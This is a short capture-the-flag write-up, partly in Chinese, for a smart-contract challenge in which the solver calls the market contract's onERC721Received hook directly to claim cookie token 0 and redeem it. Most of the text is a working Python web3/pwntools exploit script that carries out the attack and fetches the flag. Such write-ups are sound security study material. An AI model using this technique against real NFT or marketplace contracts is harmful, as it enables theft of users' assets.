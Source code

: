 ### Hint

Retrieve the OG cookie to get the flag!

## 解题思路

- 需要获得编号 0 的 cookie，初始由 deployer 获得并转给合约 `CookieMarket`
- 根据 `canRedeemcookie` 的记录，可以通过函数 `redeemcookies` 赎回指定编号的 cookie，直接调用 `onERC721Received` 更新编号为 0 的 cookie 所有者再赎回即可
    - 因为 `onERC721Received` 是 hook 函数，起初并没有意识到可以被直接调用 XD

### Exploit

```py
from web3 import Web3
from pwn import *

def transact(func, gas=1000000):
    tx = account.sign_transaction(eval(func).buildTransaction({
        'chainId': w3.eth.chain_id,
        'nonce': w3.eth.get_transaction_count(account.address),
        'gas': gas,
        'gasPrice': w3.eth.gas_price,
    })).rawTransaction
    tx_hash = w3.eth.send_raw_transaction(tx).hex()
    return w3.eth.wait_for_transaction_receipt(tx_hash)

conn = remote('challs.htsp.ro', 9002)

conn.sendlineafter('action?', '1')
uuid = conn.recvline_contains('uuid').decode().split(' ')[-1].strip()
w3 = Web3(Web3.HTTPProvider(conn.recvline_contains('rpc').decode().split(' ')[-1]))
account = w3.eth.account.from_key(conn.recvline_contains('key').decode().split(' ')[-1])

deployer_addr = conn.recvline_contains('contract').decode().split(' ')[-1].strip()

cookie_addr = w3.toChecksumAddress(w3.eth.get_storage_at(deployer_addr, 0).hex()[-40:])
cookie_abi = open('cookie_abi.json').read()
cookie_contract = w3.eth.contract(address=cookie_addr, abi=cookie_abi)

market_addr = w3.toChecksumAddress(w3.eth.get_storage_at(deployer_addr, 1).hex()[-40:])
market_abi = open('market_abi.json').read()
market_contract = w3.eth.contract(address=market_addr, abi=market_abi)

transact('market_contract.functions.onERC721Received(account.address, account.address, 0, "")')
transact('market_contract.functions.redeemcookies(0)')

conn = remote('challs.htsp.ro', 9002)
conn.sendlineafter('action?', '3')
conn.sendlineafter('uuid please:', uuid)
conn.sendlineafter('contract address please:', deployer_addr)
conn.interactive()
```

### Flag

> X-MAS{rotten_cookies_spoil_the_market}
